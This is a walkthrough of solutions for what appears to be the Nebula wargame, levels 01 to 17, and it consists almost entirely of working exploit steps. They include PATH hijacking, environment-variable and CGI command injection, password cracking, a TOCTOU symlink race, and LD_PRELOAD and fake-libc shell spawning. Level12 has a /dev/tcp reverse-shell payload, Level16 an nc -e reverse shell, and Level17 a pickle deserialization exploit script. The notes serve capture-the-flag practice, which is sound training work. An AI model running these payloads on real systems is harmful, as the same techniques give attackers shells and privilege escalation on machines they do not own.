 ## Level01
* PATH=/tmp/:$PATH
* create a echo.c in /tmp
```
echo.c
#include<stdio.h>
#include<stdlib.h>

int main(){
    system("/bin/bash");
}

cc echo.c -o echo
```

## Level02
* export USER=";/bin/bash;"

## Level03
* create a `exploit.c` file (just copy from level01) in `/tmp`
* write a `run.sh` in `/home/flag03/writable.d`
```
run.sh
cc /tmp/exploit.c -o /home/flag03/exploit
chmod +s /home/flag03/exploit
```

## Level04
* ln -s /home/flag04/token /tmp/exploit
* ./flag04 /tmp/exploit

## Level05
* tar -xvzf /home/flag05/.backup/backup-19072011.tgz -C /tmp
* cd /tmp && ssh -i .ssh/id_rsa flag05@localhost

## Level06
* in `/etc/passwd` there is `flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh`
* save to to a file `crack.txt`
* `john crack.txt --show`
* result: flag06:hello:993:993::/home/flag06:/bin/sh

## Level07
* cd /tmp && wget http://localhost:7007/index.cgi?Host=%3Bgetflag
* cat index.cgi?Host=;getflag 

## Level08
* read the `capture.pcap` file, follow the TCP stream
* as `7f` is `del` thus we can get the password is `backd00Rmate`

## Level09
* check the php version `php -v` is 5.3.6
* so `preg_replace` function still vulnerable to "Pattern Modifiers"
* create a `/tmp/exploit.txt`
```
/tmp/exploit.txt
[email {${system(sh)}}]
```
* `./flag05 /tmp/exploit.txt`

## Level10
* I just know that I can use ssh to connect to box using ssh
* TOCTOU (Time of check, Time of use) 
* so here we can using the `/home/flag10/flag10` to send a file to a server port `18211` 
* `flag10` will first check if the file is readable and later sent the file to server
* so we just need fast enough to switch the file fast enough
* `echo "wrong token“ > /tmp/token`
* `while true; do ln -fs /tmp/token ~/token; ln -fs /home/flag10/token ~/token; done`
* `while true; do nc -lnp 18211; done` I did this on my local kali
* `while true; do /home/flag10/flag10 ~/token <ip>`

## Level11

## Level12
* hash function `io.popen` run shell
* `tenlet 127.0.0.1 50001`
* `Password: 1;bash -i >& /dev/tcp/[reverse ip]/[reverse port] 0>&1;echo 1`

## Level13
---
* gdb ./flag13
* break just before the cmp
* set $eax=0x3e8
* then we get token b705702b-76a8-42b0-8844-3adabbe5ac58

---
* create a fake uid file
```
fakeuid.c
#include <unistd.h>
#include <sys/types.h>

#define FAKEUID 1000
uid_t getuid(void){
    return FAKEUID;
}

gcc fakeuid.c -fPIC -shared -o ~/libfakeuid.so
export LD_PRELOAD="/home/level13/libfakeuid.so"
```
* run coped flag13 in `~` directory

## Level14
* decrypt from token
* `8457c118-887c-4e40-a5a6-33a25353165`
* just try the `./flag14 -e` and recognize the difference between input and output(the ord difference)
* then `su flag14` and input that decrypted token

## Level15
* `strace /home/flag15/flag15`
* this is a libc.so.6 inject
* shell.c
```
#include <linux/unistd.h>


void __cxa_finalize (void *d) {  
    return;
}

int __libc_start_main(int (*main) (int, char **, char **), int argc, char *argv, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void *stack_end) {  
  system("/bin/sh");
}
```
* version
`GLIBC_2.0 { };`

* `gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic -o libc.so.6 shell.c`


## Level16
* egrep injection(https://www.aldeid.com/wiki/WackoPicko/Command-Line-Injection)
* so we need inject the username

* here are some problems, as it is netcat-openbsd version so reverseshell `nc -e /bin/sh 127.0.0.1 9999` not work(and I still haven't find the solution)
* so reverse shell

* `echo "/bin/getflag > /tmp/bar" > /tmp/SHELL`
* `chmod +x /tmp/SHELL`
* x = urlencode ``/*/SHELL``

* `curl http://<ip>:1616/index.cgi?username=$x&password=foo`(curl is not installed on nebula)

## Level17
* this is `pickle.loads` injection
* `cat /tmp/foo`
```
cos
system
(S'getflag > /tmp/flag17'
tR.
```
* `nc localhost 10007 < foo`

```
exploit.py

import os
import socket

HOST = "192.168.0.192"
PORT = 10007

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
s.connect((HOST, PORT))
payload = "cos\nsystem\n(S'getflag > /tmp/flag17'\ntR."
s.send(payload)
```